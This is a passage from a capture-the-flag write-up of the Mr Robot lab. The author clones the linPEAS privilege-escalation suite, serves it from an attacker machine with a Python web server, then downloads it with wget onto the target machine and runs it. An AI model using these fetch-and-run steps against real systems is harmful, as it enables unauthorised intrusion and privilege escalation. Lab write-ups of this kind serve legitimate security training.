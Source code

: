 ```
git clone https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
```

Now I had the file’s downloaded to my machine. I navigated into the folder ‘privilege-escalation-awesome-scripts-suite/linPEAS’ and started a python webserver:

```
python -m SimpleHTTPServer
```

![](Pictures/MrRobot/python.png)

By doing this I was able to get the script over to the target machine very easy.As the user robot on the target machine, I navigated to /tmp directory and then download linpeas.sh with the tool wget, from myKali machine.

```
wget 10.8.100.211:8000/linpeas.sh
```

![](Pictures/MrRobot/wget.png)

Then I did the script executable, and ran it.

```
chmod +x linpeas.sh
```

```
./linpeas.sh
```
